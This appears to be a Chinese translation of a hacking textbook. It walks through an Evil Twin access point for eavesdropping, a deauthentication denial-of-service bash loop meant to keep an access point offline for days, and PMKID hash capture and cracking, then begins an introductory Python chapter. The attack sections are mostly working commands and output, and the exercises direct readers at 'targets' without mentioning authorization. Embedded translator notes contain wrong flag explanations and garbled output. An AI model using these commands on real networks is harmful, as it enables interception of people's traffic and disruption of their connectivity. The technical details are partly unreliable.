有时，攻击者并非想要破解 AP 的密码，而是希望查看目标的所有流量。换句话说，攻击者想要“窃听”他们的流量。窃听可能会暴露其他账户的密码、信用卡号或机密会议和计划。实现这一目的的一种方法是创建一个邪恶双子 AP（Evil Twin AP）。邪恶双子是一个具有与目标 AP 相同 SSID 的 AP。如果攻击者能让目标连接到他们的邪恶双子 AP，那么所有流量都将通过攻击者的电脑传输。这使得攻击者能够窃听（监听）目标的流量，甚至篡改消息。

### 构建我们的邪恶双子

让我们开始构建我们的邪恶双子。为此，我们需要 Aircrack-ng 工具包中的另一个工具，`airbase-ng`（注意：原文中有 OCR 错误，将 "airbase-ng" 误读为 "airebase-ng"，根据上下文及创建邪恶双子 AP 的功能，该工具应为 `airbase-ng`）。

它将我们的 Wi-Fi 适配器转换为 AP，进行广播并接受客户端连接。我们还需要两个网络接口。在这里，我将使用我的 Alfa 网卡作为 AP，并使用以太网连接 `eth0` 来连接互联网。

```
kali > airbase-ng -a aa:bb:cc:dd:ee:ff --essid hackers-arise -c 6 wlan0mon
```

输出：

```
root@kali-2019:~# airbase-ng -a aa:bb:cc:dd:ee:ff --essid hackers-arise -c 6 wlan0mon
11:44:09 Created tap interface at0
11:44:09 Trying to set MTU on at0 to 1500
11:44:09 Trying to set MTU on wlan0mon to 1800
11:44:09 Access Point with BSSID AA:BB:CC:DD:EE:FF started.
```

现在我们的无线网卡已作为 AP 启动，让我们再次使用 `iwconfig` 检查系统以查看无线扩展情况。

```
kali > iwconfig
```

输出：

```
root@kali-2019:~# iwconfig
lo no wireless extensions.
eth0 no wireless extensions.
wlan0mon IEEE 802.11 Mode:Monitor Frequency:2.437 GHz Tx-Power=20 dBm
Retry short limit:2 RTS thr:off Fragment thr:off
Power Management:off
at0 no wireless extensions.
```

如你所见，我们现在有一个新的无线接口 `at0`，但没有无线扩展。我们需要修复这个问题。

我们需要从 `at0` 到我们的以太网接口 `eth0` 建立一个隧道，以便当有人连接到我们的 AP `at0` 时，他们的流量会穿过我们的系统并通过 `eth0` 访问互联网。下面这组四条命令正好做到了这一点！

```
root@kali-2019:~# ip link add name ha type bridge
root@kali-2019:~# ip link set ha up
root@kali-2019:~# ip link set eth0 master ha
root@kali-2019:~# ip link set at0 master ha
```

现在既然我们建立了隧道，让我们再次运行 `ifconfig`。

```
kali > ifconfig
```

输出：

```
root@kali-2019:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
inet 192.168.0.243  netmask 255.255.255.0  broadcast 192.168.0.255
inet6 fe80::20c:29ff:fe99:c941  prefixlen 64  scopeid 0x20<link>
ether 00:0c:29:99:c9:41  txqueuelen 1000  (Ethernet)
RX packets 129954  bytes 170171142  (162.2 MiB)
RX errors 0  dropped 0  overruns 0  frame 0
TX packets 16060  bytes 1168894  (1.1 MiB)
TX errors 0  dropped 0  overruns 0  carrier 0  collisions 0

ha: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
inet6 fe80::7cc1:86ff:fe97:7ce3  prefixlen 64  scopeid 0x20<link>
ether 00:0c:29:99:c9:41  txqueuelen 1000  (Ethernet)
RX packets 47  bytes 13004  (12.6 KiB)
RX errors 0  dropped 0  overruns 0  frame 0
TX packets 14  bytes 1220  (1.1 KiB)
TX errors 0  dropped 0  overruns 0  carrier 0  collisions 0
```

如你所见，我们现在有一个名为 `ha`（hacker-arise）的隧道，它将从 `at0`（我们的 AP）获取流量，将其传送到我们的以太网连接并输出到互联网。通过这种方式，每当任何人连接到我们的 AP 时，他们的流量都会穿过我们的系统，然后透明地输出到互联网。


我们现在需要为我们的隧道设置一个 DHCP 服务器（它负责向连接者分配 IP 地址）。

```
kali > dhclient ha &
```

这会在我们的隧道（`ha`）上启动 DHCP 服务（`dhcld` / `dhclient`），然后将该服务放入后台（`&`）。

为了让客户端连接到我们新的邪恶双子 AP，我们需要将他们从合法的 AP 上断开。我们可以使用与上面 WPA2 攻击中相同的方法。我们使用 `aireplay-ng` 命令并向 AP 发送去认证帧（注意：有时这可能会导致某些旧款 AP 硬件出现服务中断）。

这将使合法的 AP 对客户端不可用，从而他们会转而连接到邪恶双子！

*（注：原文 OCR 文本中有 `aireplay-ng -deauth 1000 aa:bb:cc:dd:ee:ff wlan0mon -ignore-negative-one`。`-9` 是去认证开关。`-c` 是帧数。`-a` 是 BSSID。OCR 将命令拆分并混入了 "negative-one"，这很可能是某个标志或注释的一部分，但标准用法是 `-9`。我将根据标准工具清理命令格式，使其语法正确，或者如果这是一个特定脚本，则保持接近原文文本。文本说 `-deauth 1000`。我会将其格式化得干净一些。）*

基于 OCR 更正后的命令：

```
kali > aireplay-ng -deauth 1000 aa:bb:cc:dd:ee:ff wlan0mon
```

现在打开 Wireshark（参见第 10 章关于嗅探器的内容）。当客户端重新连接到你的邪恶双子时，他们的流量将以未加密的形式穿过你的系统。你应该能够在 Wireshark 中查看它们。

请注意，当你打开 Wireshark 时，一个新的接口——我们的隧道“`ha`”——会出现在图形界面中。点击该接口以收集穿过我们隧道的数据包。

你现在可以在 Wireshark 中查看所有客户端的流量！


### 从 ha 捕获

| 编号 | 时间 | 源 | 目标 | 协议 | 长度 | 信息 |
| :-- | :---- | :----- | :---------- | :------- | :----- | :--- |
| 86 | 10.042153002 | 192.168.1.1 | 239.255.255.250 | SSDP | 316 | NOTIFY * HTTP/1.1 |
| 87 | 10.045421866 | 192.168.1.1 | 239.255.255.250 | SSDP | 379 | NOTIFY * HTTP/1.1 |
| 88 | 10.049329584 | 192.168.1.1 | 239.255.255.250 | SSDP | 379 | NOTIFY * HTTP/1.1 |
| 89 | 10.052280616 | 192.168.1.1 | 239.255.255.250 | SSDP | 316 | NOTIFY * HTTP/1.1 |
| 90 | 10.055588933 | 192.168.1.1 | 239.255.255.250 | SSDP | 307 | NOTIFY * HTTP/1.1 |

```
Frame 1: 381 bytes on wire (3048 bits), 381 bytes captured (3048 bits) on interface 0
Ethernet II, Src: Cisco-Li_97:4f:48 (00:25:9c:97:4f:48), Dst: IPv4cast_7f:ff:fa (01:00:5e:7f:ff:fa)
Internet Protocol Version 4, Src: 192.168.1.1, Dst: 239.255.255.250
User Datagram Protocol, Src Port: 1900, Dst Port: 1900
Simple Service Discovery Protocol
```

```
0000    01 00 5e 7f ff fa 00 25 9c 97 4f 48 08 00 45 00  .,^. .%_OH..E.
0016    01 6f 99 d6 00 00 04 11 6a 04 c0 a8 01 01 cf ff  .o. .............
0029    ff fa 07 6c 07 6c 01 5b 2a c0 4e 4f 54 49 46 59  .l.l.[*.NOTIFY
0038    20 2a 20 48 44 54 50 2f 31 2e 31 0d 0a 48 6f 73   * HTTP/1.1..Hos
0044    74 3a 32 33 39 2e 32 35 35 2e 32 35 35 0d 0a 73  t:239.25.255.25
0056    30 3a 31 39 30 30 0d 0a 4e 54 75 72 6e 3a 73      0:1900.. NTurn:s
0064    63 6d 65 6c 6c 61 3a 69 66 69 61 6c 6c 69 61      chemas-w ifiallia
0078    66 63 65 2d 6f 72 67 3a 73 65 72 76 69 63 65 3a   nce-org: service:
```

`ha`: 实时捕获进行中 > 数据包: 90 - 已显示: 90 (100.0%) 配置文件: 默认


若要跟踪某个客户端的数据流，请在上方窗口中右键单击一个数据包，然后单击“跟踪流（Follow Stream）”。

现在，你应该能够看到并读取该客户端的所有流量！（关于使用 Wireshark 分析流量的更多介绍，请访问 https://www.hackers-arise.com/single-post/2018/09/24/Network-Forensics-Wireshark-Basics-Part-1 ）。


```bash
root@kali-2019:~# aireplay-ng -deauth 100 -a 9C:3D:CF:6D:8F:E0 wlan0mon
10:39:02 Waiting for beacon frame (BSSID: 9C:3D:CF:6D:8F:E0) on channel 11
NB: this attack is more effective when targeting a connected wireless client (-c <client's mac>).
10:39:04 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:05 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:05 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:06 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:06 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:07 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:08 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:08 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:09 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
10:39:09 Sending DeAuth (code 7) to broadcast -- BSSID: [9C:3D:CF:6D:8F:E0]
```

## 拒绝服务（DoS）攻击

正如我们所见，存在一种称为去认证帧（de-authentication frame，或称死亡帧）的 Wi-Fi 协议帧。它可以用于将用户从接入点（AP）上踢下线。我们在上述 WPA2-PSK 攻击中用它来使用户去认证，迫使他们重新认证；并在邪恶双子（Evil Twin）攻击中用它来使合法的 AP 离线。我们还可以利用该帧和 `aircrack-ng` 工具包对 AP 发起拒绝服务（DoS）攻击。

我们只需使用以下命令即可将用户从 AP 上踢下线。如前所述，在一些较旧的 AP 上，这将导致 AP 完全离线，并强制管理员重启该 AP。

为此，我们只需输入：`aireplay-ng -deauth 100 -a <BSSID> wlan0mon`

在发送去认证帧期间，这将使所有连接的用户离线。之后他们可以重新连接。如果我们希望让 AP 永远离线该怎么办？我们可以反复执行该命令，或者运用我们的 BASH 脚本技能（关于 BASH 脚本，请参阅 `Linux Basics for Hackers`）创建一个简单脚本，以定期执行该命令。

这个简单的 BASH 脚本会定期向 AP 发送这些去认证帧（死亡帧），从而将所有客户端踢下线并中断其互联网访问。然后，我们将攻击置于“睡眠”状态一段时间，随后重新启动攻击，再次将所有用户踢下线。

为此，请打开 `Leafpad` 或任何文本编辑器，并输入以下内容：

```bash
#!/bin/bash

for i in {1..5000}
do
    aireplay-ng deauth 1000 -a aa:bb:cc:dd:ee:ff wlan0mon
    sleep 60s
done
```

- `第 1 行` - 声明这是一个 BASH 脚本
- `第 3 行` - 启动一个从 1 开始并运行至 5000 次迭代的 for 循环
- `第 5 行` - 开始 do 块
- `第 7 行` - 发送死亡帧到选定 AP BSSID 的 `aireplay-ng` 命令
- `第 9 行` - 使脚本休眠六十秒
- `第 11 行` - 结束 do 块

该脚本随后每 60 秒向 AP 发送一次去认证帧，持续 5000 次迭代或大约三天！当然，对于较短或较长的时间，只需调整 for 子句中的第二个数字（5000）即可。

## PMKID 攻击

2018 年 8 月，`hashcat` 开发者宣布他们发现了一种针对 WPA2-PSK 的新攻击方法。正如上文所见，破解 WPA2-PSK 需要将客户端暂时从 AP 断开连接，以迫使其重新连接，然后我们在四次握手中捕获哈希值。`hashcat` 团队发现，他们可以在**无需**客户端连接的情况下获取密码哈希，这为我们节省了一个步骤以及大量的时间和精力。

PMKID 攻击能够通过抓取单个帧来获取用于 WPA2-PSK 暴力密码破解的信息。该帧（即 RSN IE）包含我们需要的所有信息，并且不需要客户端连接！

### 工作原理

当你的无线网卡启动时，系统开始寻找可连接的已知网络。它会“探测”可连接的已知 SSID。如果 AP 在范围内，AP 将会响应该探测。

AP 的响应是 RSN（健壮安全网络）。随后你的网卡会发送一个身份验证请求（AR）作为响应。身份验证请求会促使 AP 发送其自身的身份验证帧。当 Wi-Fi 适配器接收到此身份验证请求时，它会将包含 ESSID 和 RSN 的关联请求发送给 AP。AP 随后响应一个可能包含 PMKID 的 EAPOL 帧。该 PMKID 包含：

1. `PMK`
2. `PMK` 名称
3. AP 的 MAC 地址
4. 客户端的 MAC 地址

所有这些随后通过 `HMAC-SHA1-128` 算法进行哈希处理。通过抓取 PMKID，剥离除密码哈希外的所有信息，然后将该哈希通过哈希破解工具（如 `hashcat`）进行处理，即可成功执行此攻击。

让我们开始吧！

此攻击所需的工具并非 Kali 默认内置，因此我们需要从 `github` 下载并编译它们。

首先，我们需要 `hcxdumptool`。我们可以使用 `git clone` 从 `www.github.com` 下载它，只需输入：

```bash
git clone https://github.com/ZerBea/hcxdumptool.git
```

然后，导航到新的 `hcxdumptool` 目录，并编译和安装该工具：

```bash
cd hcxdumptool
make
make install
```

```bash
root@kali-2019:~# git clone https://github.com/ZerBea/hcxdumptool.git
Cloning into 'hcxdumptool'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 1839 (delta 2), reused 6 (delta 2), pack-reused 1833
Receiving objects: 100% (1839/1839), 660.85 KiB | 1.54 MiB/s, done.
Resolving deltas: 100% (1242/1242), done.
```

```bash
root@kali-2019:~# cd hcxdumptool
root@kali-2019:~/hcxdumptool# make
cc -O3 -Wall -Wextra -std=gnu99 -o hcxpioff hcxpioff.c
cc -O3 -Wall -Wextra -std=gnu99 -o hcxdumptool hcxdumptool.c
root@kali-2019:~/hcxdumptool# make install
cc -O3 -Wall -Wextra -std=gnu99 -o hcxpioff hcxpioff.c
cc -O3 -Wall -Wextra -std=gnu99 -o hcxdumptool hcxdumptool.c
install -m 0755 -D hcxpioff /usr/local/bin/hcxpioff
install -m 0755 -D hcxdumptool /usr/local/bin/hcxdumptool
rm -f hcxpioff
rm -f hcxdumptool
rm -f *.o *~
```

接下来，我们需要 `hcxtools`。与上述 `hcxdumptool` 类似，我们可以通过输入以下内容来下载并安装它：


```bash
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
make
make install
```

现在，我们需要再次将无线适配器置于监听模式：

```bash
airmon-ng start wlan0
```

在无线适配器处于监听模式下，我们现在可以探测可用 AP 的 PMKID：

```bash
hcxdumptool -i wlan0mon -o HackersArisePMKID --enable_status=1
```

```bash
root@kali-2019:~# hcxdumptool -i wlan0mon -o HackersArisePMKID --enable_status=1
initialization...
warning: NetWorkManager is running with pid 550
(service possibly interfering with hcxdumptool)
warning: wpa_supplicant is running with pid 1009
(service possibly interfering with hcxdumptool)
warning: wlan0mon is probably a monitor interface
interface is already in monitor mode

start capturing (stop with ctrl+c)
NMEA 0103 SENTENCE...:
INTERFACE NAME...: wlan0mon
INTERFACE HARDWARE MAC...: 00c0ca59123a
DRIVER...: rt2800usb

DRIVER VERSION...: 5.2.0-kali2-amd64
DRIVER FIRMWARE VERSION...: 0.16
ERRORMAX...: 100 errors

FILTERLIST ACCESS POINT...: 0 entries
FILTERLIST CLIENT...: 0 entries

FILTERTO MODE...: 0
PREDEFINED ACCESS POINT...: 0 entries
MAC ACCESS POINT...: 0016b46887c9 (incremented on every new client)
MAC CLIENT...: 0b25aa8d5db0
REPLAY COUNT...: 63060
ANONCE...: 19193397a1e12dde6e81d6cd1cffaa2ef1d74884cbfa0b2e9e52d0e05ed238436
S NONCE...: 189ffc75609524bbdd9208335fc484b48356ee4e5d2081bb06d100de7f8113a1

08:13:37 2 b025aa8d5db0 <> 94103e7fdd5c7 PMKID: 90b6cfca2e01c09f284117f06fc8f932 (Spring)
08:13:40 11 b025aa8d5db0 <> a03a3e21f5595 PMKID: 9bad7089085af2fde0a52ee4e00cf2954b (CenturyLink8327)
08:13:41 11 b025aa8d5db0 <> bc3d3cf6d8fe0 PMKID: 2b2d75a736389d829c8103b0072c6c45 (NTGR_VMB_146901001)
08:13:56 6 c8d3ffc6475c <> bc99114a9947 PMKID: 717679d64a56c26b40481549307509bb0d (CenturyLink9930)
08:14:00 11 b025aa8d5db0 <> 4a3a3e21f5595 PMKID: 41e0e056084fef05100f39d112e40ee (Test)
08:14:00 11 b025aa8d5db0 <> 1013310480b2b PMKID: c008e1b554f8c86e8c5fc5427d289d33 (CenturyLink2925)
```

如上图所示，`hcxdumptool`能够从区域内的许多 Wi-Fi AP 中获取 PMKID。它可能无法获取所有的，但通常可以获取大部分（80-90%）。

请注意，我们的捕获文件包含多个 PMKID。可能我们只想破解其中一个 AP 的 PSK。为此，让我们运行带有针对单个目标 AP 过滤器的 `hcxdumptool`。返回我们的 `airodump-ng` 终端，选择目标 AP 的 BSSID。然后创建一个包含目标 AP BSSID 的简单文本文件。我们可以使用 `cat` 创建一个名为 `targetBSSID` 的简单文本文件。

请确保该文件中不包含任何冒号 `:` 或空格。

`kali > cat > targetBSSID <目标AP的BSSID>`

按 `CTRL+D` 退出 `cat`。

现在我们已经将 BSSID 写入一个纯文本文件中，因此可以在 `hcxdumptool` 的过滤器中使用它来针对目标 AP，并将目标 PMKID 放入输出文件中。

为此，请输入：

```
kali > hcxdumptool -l wlan0mon -o HackersArisePMKID --enable_status=1 --filterlist_ap=targetBSSID --filtermode=2
```

```
root@kali-2019:~# hcxdumptool -l wlan0mon -o HackersArisePMKID --enable_status=1 --filterlist_ap=targetBSSID --filtermode=2
initialization...
warning: NetworkManager is running with pid 550
(service possible interfering hcxdumptool)
warning: wpasupplicant is running with pid 1009
(service possible interfering hcxdumptool)
warning: wlan0mon is probably a monitor interface
interface is already in monitor mode

start capturing (stop with ctrl+c)
WME Q183 SENTENCE...
INTERFACE NAME.........: wlan0mon
INTERFACE HARDWARE MAC...: 00c0ca59123a
DRIVER..................: rt2800usb
DRIVER VERSION.........: 5.2.0-kali2-amd64
DRIVER FIRMWARE VERSION.: 0.36
ERRORMAX...............: 100 errors
FILTERLIST ACCESS POINT..: 1 entries
FILTERLIST CLIENT........: 0 entries
FILTERMODE...............: 2
PREDEFINED ACCESS POINT..: 0 entries
MAC ACCESS POINT.........: 24336c93aca (incremented on every new client)
MAC CLIENT...............: c022504abdbc
REPLAYCOUNT............: 63309
ANONCE...................: 73bd9d13bc343d967abbd1152bdcab2df622b08874363d7f76183909accc1d66e8a
SNONCE...................: 990c0df78e9e3c5f51e066e430432f9755af835443080f59d22e94eb80f134352

08:42:29   6 c022504abdbc <--> a0a3e:
PMKID: 133194ebf928aef67198f2aaf5e3527e | (CenturyLink8327)
```

```
root@kali-2019:~# hashcat -m 16800 hashoutput.txt top10000passwords.txt
hashcat (v5.1.0) starting...
```

如前所示，`hcxdumptool` 只关注该单一 AP，并将 PMKID 放入了我们的文件 `HackersArisePMKID` 中！

### 将 Dump 转换为 Hashcat 格式

为了将 `HackersArisePMKID` 文件转换为 `hashcat` 可以处理的格式，我们需要使用 `hcxcaptool`。请确保你所在的目录与 `HackersArisePMKID` 文件相同，然后输入：


```
kali > hcxcaptool -z hashoutput.txt HackersArisePMKID
```

现在我们剔除了所有多余的信息，可以将这个`hashoutput.txt`文件发送给`hashcat`并进行破解！请注意，该命令中的`-m 16800`代表此哈希值对应的适当哈希算法。

```
kali > hashcat -m 16800 hashoutput.txt top10000passwords.txt
```

### 通过社会工程学获取WPA2-PSK密码

在某些情况下，获取WPA2-PSK密码的最佳途径是通过对用户进行社会工程学攻击。对大多数人来说，经过精心设计的社会工程学攻击可能非常有效。幸运的是，我们有一个专门用于此目的的工具，名为`wifiphisher`。在第17章“社会工程学”中，我将展示如何使用它让最终用户自愿向你提供他们的Wi-Fi密码！

## 摘要

尽管经过二十年的修补和安全升级，Wi-Fi或IEEE 802.11仍然是黑客活动的肥沃土壤。攻击者必须选择正确的策略才能取得成功，而不浪费时间和资源。使用四次握手或PMKID进行的WPA2-PSK攻击可能非常耗时。如果AP启用了WPS，这种使用`bully`或`REAVER`的攻击可能只需几个小时（它只需要11,000次尝试）。如果你只需要窃听目标的Wi-Fi流量，邪恶双胞胎（Evil Twin）攻击可能非常有效。

如果你未能通过这些攻击获取密码，请考虑第17章中的社会工程学攻击。

## 练习

1. 将你的无线网卡置于监控模式。注意其名称的变化。

2. 按照上述步骤获取Wi-Fi客户端与AP之间的四次握手。现在，使用`hashcat`破解该密码。

3. 构建上述的邪恶双胞胎攻击，并监视目标的Wi-Fi流量。

4. 扫描你所在区域带有WPS 1.0的AP。找到其中一个后，使用`bully`或`Reaver`破解PIN码。


# 16 恶意Python

*成功的意愿很重要，但更重要的是准备的意愿。*

*Bobby Knight*

一些基本的脚本技能对于成为顶级黑客至关重要。如果没有编写自己脚本的能力，你将不得不依赖他人开发的工具。借用他人的工具并没有错，但一旦工具开发出来，其效力和价值就会逐分钟下降。只要黑客开发出新的工具，AV、防火墙和IDS开发人员就开始检测其行为和特征，使其效果降低。当你开发和完善你的脚本技能时，你可以跻身于更高水平的黑客行列！

虽然有许多编程语言，但Python是大多数黑客的首选。如果你查看Kali Linux中的工具，大多数都是用Python编写的，包括`sqlmap`、`p0F`、`recon-ng`、`wpscan`等等。此外，像YouTube、Dropbox、Instagram和Spotify这样的知名应用都是用Python编写的。这可能是因为Python简单、高效，并且拥有无数第三方库（小的可重用代码片段）。这些库为Python提供了其他脚本语言无法比拟的功能。你可以在其他语言中构建黑客工具，但Python的模块使其更快、更容易。

在我们进入编写Python脚本之前，让我们先讨论一些重要的初步知识：

1. Python模块

2. Pip

3. 面向对象编程

## Python模块

当你安装Python时，你也安装了其标准库和模块集合，它们提供了广泛的功能。这些包括内置数据类型、异常处理、数值和数学模块、文件处理、加密服务（对黑客和信息安全专业人员至关重要）、互联网数据处理以及与互联网协议的交互。

尽管这些标准库和模块提供了强大的功能，但你可能需要额外的第三方模块。在Python中，第三方模块非常广泛，这也是黑客偏好Python而非其他编程语言的主要原因之一。你可以在PyPI（Python包索引，如下所示）找到第三方模块的综合列表。

## Pip

Python有自己专门的包管理器（类似于`rpm`或`apt`），用于安装和管理Python包，称为`pip`（Python Installs Packages）。由于本章所有内容都使用Python3，因此你需要Python3的`pip`来下载和安装包。你可以通过输入以下内容从Kali仓库下载和安装`pip`：

```
kali > apt install python3-pip
```

然后，要从PyPI仓库下载特定包，你可以简单地输入：

```
kali > pip3 install <package name>
```

当你通过`pip3`从PyPI仓库下载这些包时，它们会自动放置在Kali系统的`/usr/local/lib/python3/dist-packages`目录中。因此，例如，如果你使用`pip`安装了SNMP协议的Python实现，你可以在`/usr/local/lib/python3.6/pysnmp`找到它。如果你不确定你的包放在哪里，可以输入`pip3`，后跟`show`和包名，如下所示：

```
kali> pip3 show pysnmp
```


## 面向对象编程

在我们深入Python之前，花点时间讨论面向对象编程或OOP的概念可能是个好主意。Python像许多现代编程语言一样使用这个模型。如果你有另一种OOP语言的经验并理解这些概念，你可以安全地跳到下一节。如果没有，请花一分钟阅读这一节，这可能会使你的Python之旅变得稍微容易一些。

在下图中，我们说明了OOP模型的概念。如你可能推测的，OOP围绕对象的概念展开。对象具有以属性和状态形式存在的属性，以及由对象执行或作用于对象的对象方法。

面向对象编程的理念是创建像现实世界中事物那样行为的对象。例如，汽车是一个具有属性（如轮子、颜色、大小和发动机）的对象。同一辆车还有方法，即汽车执行的动作，如加速、启动、停止和锁定。从自然语言的角度来看，对象是名词，属性是形容词，方法是动词。

然后，对象是类的成员，类类似于创建具有共享初始变量、属性和方法的对象的模板。例如，如果我们有一个名为`cars`的类，我们的汽车（奥迪）将是`cars`类的成员。该类也将包括其他对象/汽车，如丰田和宝马。


类也可以拥有子类。我们的汽车类（`car class`）有一个奥迪（`Audi`）子类，而该子类的一个对象可能是一辆奥迪 A8。

每个对象都会有属性（品牌、型号、年份和颜色）和方法（启动、锁定、驾驶和停车）。

在 Python 等面向对象（OOP）语言中，对象继承其所属类的特征；奥迪 A8 将从其所属类“car”继承方法（启动、锁定、驾驶和停车）。

这些面向对象的概念对于理解 Python 的工作机制至关重要，随着你在本章内容的推进以及 Python 技能的提升，你会逐渐领会这一点。

## 入门

既然我们已经梳理了一些基础知识，接下来让我们讨论一些基本的编程概念、术语以及 Python 语法。之后，我们将开始编写一些简单的脚本，并逐步过渡到更复杂的渗透测试脚本，直到本章结束。

就像 BASH 脚本一样，我们可以使用任何文本编辑器（如 `vim` 或 `Leafpad`）来创建 Python 脚本。随着你的脚本变得越来越复杂和精致，你可能会发现使用集成开发环境（IDE）会很有帮助。在本章中，我们将使用 PyCharm，它是最好的 Python IDE 之一。IDE 类似于文本编辑器，但内置了额外的功能，例如语法高亮、调试和编译能力。

尽管大多数 IDE 都能支持多种编程环境，但 PyCharm 是**专门**为 Python 设计的。这是一个非常出色的 IDE，拥有许多增强功能，能帮助你更快地编写更高效代码。PyCharm 的专业版是可以购买的，但在这里我们将使用免费的社区版。你不需要使用 IDE 来跟随本章内容，但它会对你有所帮助。

你可以从 [https://jetbrains.com/pycharm/download](https://jetbrains.com/pycharm/download) 下载 PyCharm。下载完成后，你需要进入新的 PyCharm 目录，解压它，然后通过执行 `pycharm.sh` 脚本启动 PyCharm。


```
root@kali-2019:~/pycharm-community-2019.2.3# cd bin
root@kali-2019:~/pycharm-community-2019.2.3/bin# ls -l
total 196
-rwxr-xr-x 1 root root    221 Sep 25 02:50 format.sh
-rw-r--r-- 1 root root   26540 Sep 25 02:50 fsnotifier.sh
-rwxr-xr-x 1 root root   32776 Sep 25 02:50 fsnotifier64
-rw-r--r-- 1 root root   26453 Sep 25 02:50 fsnotifier-arm
-rw-r--r-- 1 root root    10915 Sep 25 02:50 idea.properties
-rwxr-xr-x 1 root root     296 Sep 25 02:50 inspect.sh
-rw-r--r-- 1 root root   39520 Sep 25 02:50 libdbm64.so
-rw-r--r-- 1 root root    2322 Sep 25 02:50 log.xml
-rwxr-xr-x 1 root root     410 Sep 25 02:50 m2-intern.py
-rw-r--r-- 1 root root     533 Sep 25 02:50 pycharm64.vmoptions
-rw-r--r-- 1 root root    7074 Sep 25 02:50 pycharm.png
-rwxr-xr-x 1 root root     739 Sep 25 02:50 pycharm.sh
-rw-r--r-- 1 root root    4774 Sep 25 02:50 pycharm.svg
-rw-r--r-- 1 root root     541 Sep 25 02:50 pycharm.vmOptions
-rwxr-xr-x 1 root root     808 Sep 25 02:50 restart.py
root@kali-2019:~/pycharm-community-2019.2.3/bin$ pycharm.sh
bash: pycharm.sh: command not found
root@kali-2019:~/pycharm-community-2019.2.3/bin$ . ./pycharm.sh
OpenJDK 64-Bit Server VM warning: Option UseConcMarkSweepGC was deprecated in version 9.0 and will likely be removed in a future release.
```


这应该会打开如下图所示的 PyCharm 界面。

## 变量

让我们从 Python 中一些更实用的概念开始。与其他编程语言一样，Python 也有变量。变量是与特定值关联的名称。每当你在程序中使用该变量名时，系统就会使用其关联的值。例如，一个名为 `name` 的变量可能包含值 `OccupyTheWeb`。

变量名指向存储在内存位置的数据，这些数据可以包含各种类型的值，如整数、实数、字符串、浮点数、布尔值（TRUE 或 FALSE）、列表或字典（我们稍后会详细介绍这些）。


```python
#!/usr/bin/python3

name="OccupyTheWeb"

print ('Greetings to ' + name + ' and Welcome To This Journey To Become a Master Hacker!')
```

```bash
root@kali-2019:~#  ./first_simple_script.py
Greetings to OccupyTheWeb and Welcome To This Journey to Become a Master Hacker!
root@kali-2019:~# 
```

为了熟悉变量，让我们创建我们的第一个 Python 脚本。打开你的 PyCharm IDE，创建下面这个简单脚本，你可以将其命名为 `first_simple_script.py`。

第一行只是告诉系统使用 `python3` 解释器（Python3 是最新的 Python 版本，但在编写本文时，许多系统仍在使用 Python2.7）。第二行定义了一个名为 `name` 的变量并为其赋值（在这种情况下是 `OccupyTheWeb`）。你可以将这一行改为你自己的名字或任何名字。

这个变量的值采用字符串字符数据格式，这意味着内容被引号包围，并被当作文本处理（注：在 Python 中，单引号和双引号通常可以互换使用，但有一些例外情况）。你可以把数字放在字符串中，但它们会被当作文本而不是数字处理。

第三行创建了一个 `print()` 语句，将 `Greetings to` 与 `name` 变量中的值进行拼接（“拼接”是信息技术领域的一个专业术语，意为“组合在一起”），后面跟着文本 `and Welcome to This Journey to Become a Master Hacker`。`print` 语句会将括号内传入的任何内容显示在屏幕上。

在执行此脚本之前，你需要赋予自己执行权限。你需要使用 `chmod` 命令来完成这一步。

`kali > chmod 755 first_simple_script.py`

现在，要执行该脚本，只需在脚本名前加上点号和斜杠（`./`）即可。

`kali > ./first_simple_script.py`

成功！你刚刚用 Python 完成了一个非常基础的脚本！


```python
#!/usr/bin/python3

HackersAriseStringVariable = "Getting Started Becoming a Master Hacker";

HackersAriseIntegerVariable = 12

HackersAriseFloatingPointVariable = 3.1415

HackersAriseList = [1,2,3,4,5,6]

HackersAriseDictionary = {'name' : 'OccupyTheWeb', 'value' : 27}

print (HackersAriseStringVariable)

print (HackersAriseIntegerVariable)

print (HackersAriseFloatingPointVariable)

print (HackersAriseList[3])
```

在 Python 中，每种变量类型都被当作一个类来处理。类是创建对象的模板（如我们在前面关于 OOP 的章节中讨论过的那样）。在下一个脚本中，我将演示几种不同类型的变量。变量不仅仅是字符串（文本）。它们可以存储多种不同的数据类型。

此脚本创建了五个包含不同类型数据的变量。这些包括：

- 字符串 - 被视为文本

- 整数 — 没有小数点的数字

- 浮点数 — 带小数点的数字

- 列表 — 一组存储在一起的值

- 字典 — 一组无序的数据，每个数据都有自己唯一的键

当你想通过引用键名来引用或修改某个值时，字典非常有用。例如，假设你有一个名为 `cars` 的字典，其中包含你最喜欢每个汽车制造商的车型，配置如下：`cars = {'BMW' : 'X6', 'Mercedes' : 'GLC300', 'Tesla': 'Model X', 'Audi' : 'Q3'}`

稍后，在编写脚本时，如果你想获取特定汽车的最爱车型，你只需通过其键名调用即可。

```
print (cars['BMW'])
```


你也可以更改特定键的值。如果你想把你最喜欢的特斯拉车型改为 Model S，你会输入：`cars['Tesla'] = 'Model S'`

我们将在本章后面更详细地讨论列表和字典。

在 PyCharm 中输入上述脚本并将其保存为 `secondscript.py`。赋予自己执行权限，然后按以下方式执行：`kali > ./secondpythonscript.py`

## 注释


与任何编程语言一样，Python 允许添加注释。注释只是添加到你代码中的文本，用于帮助你解释你试图做的事情。解释器不会执行这些注释。Python 解释器会看到这些注释并简单地跳过它们，直到遇到另一行可执行代码。

